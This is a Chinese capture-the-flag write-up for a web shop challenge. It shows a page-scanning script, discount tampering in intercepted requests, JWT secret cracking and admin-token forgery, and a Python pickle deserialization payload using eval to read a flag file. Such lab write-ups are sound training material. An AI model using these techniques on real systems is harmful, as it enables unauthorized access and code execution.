 考察知识点：

1.python 脚本编写

2. jwt破解

3. 



1.提示需要冲到lv6

![](images/377E6D4797724192A3C72F971257F2FBclipboard.png)



2. 发现下一页可以一直点击，推测lv6在某一页

采用脚本爆破：

因为网页中的会员等级在网页中是等级对应的图片，所以爆破脚本只需要不断获取lv6.png即可

![](images/662F526C83D0477CB6296F114D974E16clipboard.png)

```javascript
import requests

url='http://0302ff1f-762a-4a95-8aad-32d665cf5b9f.node3.buuoj.cn/shop?page='

for i in range(0,500):
    r=requests.get(url+str(i))

    print(url+str(i))
    # print(r.text)
    if "lv6.png" in r.text:
        print(i)
        break
```



最终在181页发现lv6

![](images/6C9B9966ACB64C62B488EFD6D3124BBAclipboard.png)

3.购买会员，但是发现钱不够，抓包发现可以任意更改折扣



![](images/14AE3A5D5D2043E69784725B0A2F8AA3clipboard.png)

当折扣改的足够小时，会发生302跳转，



4. 跳转的302页面，显示只允许admin用户访问，所以此时思路就是伪造成admin用户



发现传输协议中使用了jwt，jwt是不安全的

https://zhuanlan.zhihu.com/p/71672282

![](images/2A4574A1FBA34C129EF88E3AFCDD200Dclipboard.png)



5. 伪造jwt



5.1 安装jwt破解工具

```javascript
git clone https://github.com/brendan-rius/c-jwt-cracker
make
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImgxMWJhMSJ9.dZLQ2sL0AKiPll8PmCVQ4ZXiMNXT9AxYtE3U1qhDR6Y
```



![](images/04F1AB806ADB4CD387AC8B6EEE922D93clipboard.png)



5.2 伪造成admin用户

https://jwt.io/

![](images/8CAD6703FAFB41CEBA55A5B1C924AA01clipboard.png)



6. 访问刚才的后台

发现网站的源码

![](images/AF13434ECD864B799C9C011C8E717DA5clipboard.png)



7. 下载到源码发现admin.py存在反序列化

```javascript
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```



8.构造exp

```javascript
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```



9. 抓包发送payload

![](images/720FB7F8333A494887F7CF9DDE6D1C70clipboard.png)



![](images/58E3D562260A47AEB35615F4445B9DA0clipboard.png)


